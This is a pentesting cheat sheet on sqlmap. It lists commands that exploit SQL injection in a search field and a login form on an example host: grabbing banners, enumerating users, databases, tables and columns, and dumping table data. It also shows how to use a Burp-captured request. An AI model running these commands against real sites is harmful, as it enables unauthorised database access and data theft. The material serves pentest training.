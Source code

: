 # SQLMap

## SQLi fields type

<pre class="language-bash" data-title="Test Search Field" data-overflow="wrap"><code class="lang-bash"># sql help
sqlmap --help

# get banner from vuln param - GET request
sqlmap -u 'http://gigio.com/search.php?search=n' -p search --technique=U --banner -v3 --fresh-queries
# -u: possible vulnerable url
# -p: specific vulnerable param
# --techinque: specific the techinque (U = UNION)
# --banner: show a database banner
# -v: verbouse (level 0-6)
<strong># --fresh-queries: ignore query results stored in session file
</strong><strong>
</strong><strong># get banner from vuln param - POST request
</strong><strong>sqlmap -u 'http://gigio.com/search.php' -data 'search=n' -p search --technique=U --banner -v3 --fresh-queries
</strong><strong>
</strong><strong># get database users
</strong>sqlmap -u 'http://gigio.com/search.php?search=n' -p search --techinque=U --users
# --users: get all dbs users
# --current-user: get current user

# get databases name
sqlmap -u 'http://gigio.com/search.php?search=n' -p search --techinque=U --dbs

# get database tables
sqlmap -u 'http://gigio.com/search.php?search=n' -p search --techinque=U -D DB_NAME --tables
# -D: specific the databases

# get table columns
sqlmap -u 'http://gigio.com/search.php?search=n' -p search --techinque=U -D DB_NAME -T TABLE_NAME --columns
# -T: specific table

# dump db data
sqlmap -u 'http://gigio.com/search.php?search=n' -p search --techinque=U -D DB_NAME -T TABLE_NAME -C col1,col2,3 --dump
<strong>
</strong></code></pre>

{% code title="Test login form" %}
```bash
sqlmap -u http://gigio.com/login.php --data='user=test&pass=test' -p user --technique=B --banner
# -u: specific url
# --data: specific request params
# -p: specific param to test
# --technique: specific the technique
# --banner: get db banner

# enum the database
sqlmap -u http://gigio.com/login.php --data='user=test&pass=test' -p user --technique=B --dbs

# use the same flag of Search field sqli
```
{% endcode %}

## SQLMap with BurpSuite

We can intercept a request with Burp proxy and use the request to find sqli

1. Intercept the request in proxy tab
2. Right-click > 'Copy to file' > 'Save'

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Use file in sqlmap

```bash
sqlmap -r /PATH/TO/login.req -p user --technique=B --banner -v3
```

## SQLMap output

```
ls /usr/share/sqlmap/output/
```
